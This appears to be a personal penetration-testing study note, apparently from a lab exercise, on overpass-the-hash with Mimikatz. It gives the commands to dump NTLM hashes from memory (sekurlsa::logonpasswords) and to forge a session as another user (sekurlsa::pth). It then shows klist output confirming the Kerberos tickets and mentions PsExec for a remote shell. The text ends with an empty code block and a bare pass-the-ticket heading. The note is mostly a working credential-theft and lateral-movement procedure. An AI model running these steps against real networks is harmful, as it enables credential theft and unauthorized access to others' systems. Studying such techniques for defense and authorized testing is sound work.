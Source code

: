 ## Process
#mimikatz #sekurlsa #sekurlsa_pth 
1. Get NTLM hash for target user
```mimikatz
sekurlsa::logonpasswords
```
2. *Pass the Hash*: this will get a kerberos ticket for target user and adds to our session
```mimikatz
sekurlsa::pth /user:<target_user> /domain:<domain> /ntlm:<target_user_ntlm_hash>
```
- this will open a new cmd
3. try accessing the desired resource, e.g. smb
```cmd
C:\> net use \\<server>
The command completed successfully.

klist

#0>     Client: dave @ CORP.COM
        Server: krbtgt/CORP.COM @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 1/8/2024 4:57:16 (local)
        End Time:   1/8/2024 14:57:16 (local)
        Renew Time: 1/15/2024 4:57:16 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: DC1.corp.com

#1>     Client: dave @ CORP.COM
        Server: cifs/web04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 1/8/2024 4:57:16 (local)
        End Time:   1/8/2024 14:57:16 (local)
        Renew Time: 1/15/2024 4:57:16 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC1.corp.com
```
- Now we can access any resource the target user has access to. In the above example we can access web04 which dave has access to.
- or use `PsExec` to get a command line on this machine as the target user

## Monitor
#klist #kerberos #tickets
we can use `klist` to list available kerberos tickets for the current session
```

```
# Pass the ticket
#pass_the_ticket
